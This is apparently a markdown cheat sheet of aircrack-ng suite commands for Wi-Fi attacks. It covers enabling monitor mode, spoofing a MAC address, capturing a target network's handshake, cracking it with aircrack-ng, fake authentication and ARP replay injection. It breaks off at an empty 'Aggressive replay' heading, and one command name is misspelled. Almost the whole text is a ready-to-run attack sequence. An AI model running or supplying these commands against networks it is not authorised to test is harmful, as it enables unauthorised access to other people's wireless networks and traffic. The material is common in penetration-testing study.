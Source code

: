 ## Wireless Quick Reference

Place wlan0 in monitor mode
```
    airmon-ng check kill
    airmon-ng start wlan0
```

Change virtual monitor mac
```
    ifconfig wlan0mon down
    macchanger -m xx:yy:xx:77:88:99 wlan0mon
    ifconfig wlan0mon up
```

Run airodump
```
    airodoump-ng wlan0mon
```

Limit to bssid (ensure to select channel and bssid)
```
    airodump-ng -c 8 --bssid 00:00:00:00:00 -w capture wlan0mon
```

Attempt crack (change bssid as appropriate)
```
    aircrack-ng -b 00:00:00:00:00:00 capture-01.cap
```

Injection test
```
    aireplay-ng --fakeauth 0 -e "ESSID" -a 00:00:00:00:00:00 wlan0mon
```

Replay (b is bssid, h is client mac)
```
    aireplay-ng --arpreplay -b 00:01:02:03:04:05 -h 00:04:05:06:07:08 wlan0mon
```

Aggressive replay (a is bssid, c is client mac)
```
